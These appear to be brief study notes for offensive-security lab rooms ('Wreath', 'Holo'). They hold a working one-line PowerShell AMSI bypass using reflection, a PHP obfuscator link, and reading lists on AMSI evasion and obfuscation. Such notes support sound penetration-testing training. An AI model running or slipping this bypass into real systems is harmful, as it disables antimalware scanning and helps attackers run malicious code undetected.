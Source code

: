 
# Wreath
https://www.gaijin.at/en/tools/php-obfuscator


## Holo
[# Using Matt Graebers Reflection method](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#using-matt-graebers-reflection-method)
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```




```
For more information about AMSI bypasses, check out the following resources:

- [](https://offensivedefence.co.uk/posts/making-amsi-jump/)[https://offensivedefence.co.uk/posts/making-amsi-jump/](https://offensivedefence.co.uk/posts/making-amsi-jump/)
- [](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)[https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)
- [](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)[https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim)[https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim)
- [](https://blog.f-secure.com/hunting-for-amsi-bypasses/)[https://blog.f-secure.com/hunting-for-amsi-bypasses/](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
- [](https://www.contextis.com/us/blog/amsi-bypass)[https://www.contextis.com/us/blog/amsi-bypass](https://www.contextis.com/us/blog/amsi-bypass)
- [](https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass)[https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass](https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass)
- [https://amsi.fail/](https://amsi.fail/)[](https://amsi.fail/)
- [](https://rastamouse.me/blog/asb-bypass-pt2/)[https://rastamouse.me/blog/asb-bypass-pt2/](https://rastamouse.me/blog/asb-bypass-pt2/)
- [](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)[https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
- [](https://www.youtube.com/watch?v=F_BvtXzH4a4)[https://www.youtube.com/watch?v=F_BvtXzH4a4](https://www.youtube.com/watch?v=F_BvtXzH4a4)
- [https://www.youtube.com/watch?v=lP2KF7_Kwxk](https://www.youtube.com/watch?v=lP2KF7_Kwxk)
- [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
```



For more information about manual obfuscation and AMSI obfuscation, check out the following resources.

- [](https://amsi.fail/)[https://amsi.fail/](https://amsi.fail/)
- [](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)[https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
- [](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)[https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
- [](https://www.youtube.com/watch?v=lP2KF7_Kwxk)[https://www.youtube.com/watch?v=lP2KF7_Kwxk](https://www.youtube.com/watch?v=lP2KF7_Kwxk)
- [](https://www.youtube.com/watch?v=F_BvtXzH4a4)[https://www.youtube.com/watch?v=F_BvtXzH4a4](https://www.youtube.com/watch?v=F_BvtXzH4a4)









